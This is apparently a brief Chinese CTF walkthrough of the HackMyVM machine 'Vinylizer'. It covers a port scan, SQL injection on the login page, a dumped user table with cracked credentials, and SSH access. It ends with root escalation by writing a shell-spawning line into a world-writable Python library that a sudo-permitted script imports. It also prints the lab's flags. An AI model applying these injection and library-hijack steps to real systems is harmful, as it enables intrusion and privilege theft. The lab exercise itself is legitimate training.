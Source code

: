 # Vinylizer

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Vinylizer

[video](https://www.bilibili.com/video/BV1XvoaYtEg5/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

http://192.168.5.39/login.php 登陆存在 sql 注入， vinyl_marketplace 中的 users 表中有登陆凭据：

```
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```

在线 hash 匹配，找到 shopamdin 的明文密码 addicted2vinyl 可以用这个用户登陆 ssh。

拿到了 user flag:

```
shopadmin@vinylizer:~$ cat user.txt
I_L0V3_V1NYL5
```

sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py

发现脚本中引用的一个库对全体用户有修改权限 /usr/lib/python3.10/random.py 直接将 `import os; os.system("/bin/bash")` 写入，然后再执行 sudo，拿到 root 权限。

```
root@vinylizer:~# cat root.txt
4UD10PH1L3
```
